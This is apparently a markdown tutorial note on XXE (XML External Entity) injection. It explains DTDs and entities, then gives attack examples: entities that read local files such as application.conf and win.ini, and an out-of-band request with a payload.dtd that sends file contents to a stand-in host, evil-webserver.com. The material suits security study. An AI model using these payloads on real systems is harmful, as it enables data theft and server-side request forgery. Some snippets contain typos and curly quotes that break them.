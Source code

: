 # What is XXE?
XXE = XML External Entity

This is a type of attack that targets `XML`[extensible markup language] parsers. The attack works by loading an `External Entity` into valid `XML`. This attack can lead to `data disclosure`, `dos`,`ssrf` and even `port scanning` of local resources.

# XML and its ENTITYs

### XML Entities
A way of representing an item of data within an `XML` doc. Certain entities are built in to the spec i.e `&lt;` and `&gt;` represent the chars `< >`, these are metachars use to denote `XML` tags and must be represented using their entities when they appear in data.

### What is a DTD
A DTD is a Document Type Definition.
A DTD defines the structure anf the legal elements and attributes of an XML document. 
### Why use a DTD
With a DTD, independent groups of peopl can agree on a standard DTD for interchanging data.
An application can use a DTD to verify that XML data is valid. 
### Internal DTD Declaration
If the DTD is declared inside the XML file, it must be wrapped inside the `<!DOCTYPE>` definition:
```xml
<?xml version="1.0"?>
<!DOCTYPE note [
<!ELEMENT note (to, from, heading, body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
]>
<note>
<to>Tove</to>
<from>Jani</from>
<heading>Reminder</heading>
<body>Text here</body>
</note>
```
### An External DTD Declaration
If the DTD is declared in an external file, the `<!DOCTYPE>`definition must contain a reference to the DTD file:
```xml
<?xml version="1.0"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
	<to>Tove</to>
	<from>Jani</from>
	<heading>Reminder</heading>
	<body>Text here</body>
</note>
```
Here is what the `dtd` file looks like
```xml
<!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)> 
```
`ENTITY` tags within are simply shortcut to a special character that can be reference by calling the XML file. Notice that the last `ENTITY` tag is actually pulling the contens of a local file via the `SYSTEM` word.

```xml
<!DOCTYPE STRUCTURE [
<!ELEMENT SPECIFICATIONS (#PCDATA)>
<!ENTITY VERSION “1.1”>
<!ENTITY file SYSTEM “file:///c:/server_files/application.conf” >
]>
```
The above `.dtd` file might be used as follows
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPES foo SYSTEM "http://validserver.com"/formatting.dtd">
<specifications>&file;</specifications>
```
`formatting.dtd` is called using `DOCTYPE` tags and the XML file can reference the `ENTITYs` and structure within.

`ENTITYs` can be used without formality of full `.dtd` file. By calling `DOCTYPE` and using square brackets`[]`, you can reference `ENTITY` tags for use in only that XML file. Below the `application.conf` file is referenced for use in `<configuration></configuration>` tags, without a full `.dtd` file to host it:
```xml
<?xml version=”1.0″ encoding=”ISO-8859-1″?>
<!DOCTYPE example [
<!ELEMENT example ANY >
<!ENTITY file SYSTEM “file:///c:/server_files/application.conf” >
]>
<configuration>&file;</configuration>
```
### Sumary
- DTD files can be external or internal to an XML file
- ENTITYs exist within DTD files
- ENTITYs can call local system files

# Injection
When data is passed in a `HTTP` request it opens the possibility of abuse from the user. In the case of a form wrappen in XML being sent to the server to be processed:
- Intercept vulnerable request with a web proxy
- Add injected ENTITY tag and `&xxe;` variable reference
	- ensure the `&xxe;` reference is with data that will be returned and displayed
- Release the intercept POST request
# Out of band
While some attacks might be as easy as that there are times where it is not as easy and here we turn to those external .dtd files mentioned. DOCTYPES references to external .dtd files allow us to conduct this attack entirely `out-of-band`

The following request contains a .dtd from a server the attacker controls - here is the request:
```


POST /notes/savenote HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: text/xml;charset=UTF-8.
Host: myserver.com

<?xml version=”1.0″ ?>
<!DOCTYPE hack [
<!ELEMENT x ANY >
<!ENTITY % alpha SYSTEM “https://evil-webserver.com/payload.dtd”>
%alpha;
%bravo;
]>
<x>&charlie;</x>
<note>
<to>Alice</to>
<from>Bob</from>
<header>Sync Meeting</header>
<time>1200</time>
<body>Meeting time changed</body>
</note>

```
And here is what that `payload.dtd` contains
```
<?xml version=”1.0″ encoding=”utf-8″ ?>
<!ENTITY % data SYSTEM “file:///c:/windows/win.ini”>
<!ENTITY % bravo “<!ENTITY % charlie SYSTEM
‘https://evil-webserver.com/?%data;’>”>
```
- Client sends the POST request with the injected XML code
	- The server, via the XML parser, parses the XML from top to bottom, reaching the injected ENTITY
- The server requests `payload.dtd` from `https://evil-webserver.com`
- `https://evil-webserver.com` responds with `payload.dtd`
- The code within payload.dtd is parsed by the XML parser, which reads the contents of win.ini and sends it as a parameter in an HTTP GET request back to `https://evil-webserver.com`

The extracted data can be viewed by the attacker in their web server logs.

## Learn more 

[XXE Payloads](https://gist.github.com/staaldraad/01415b990939494879b4)

[Synack](https://www.synack.com/blog/a-deep-dive-into-xxe-injection/)

[PortSwigger Academy](https://portswigger.net/web-security/xxe)

[H1 Report](https://hackerone.com/reports/312543)

[PortSwigger](https://portswigger.net/web-security/xxe)

[Cracking the lens: targeting HTTP's hidden attack-surface](https://portswigger.net/blog/cracking-the-lens-targeting-https-hidden-attack-surface)
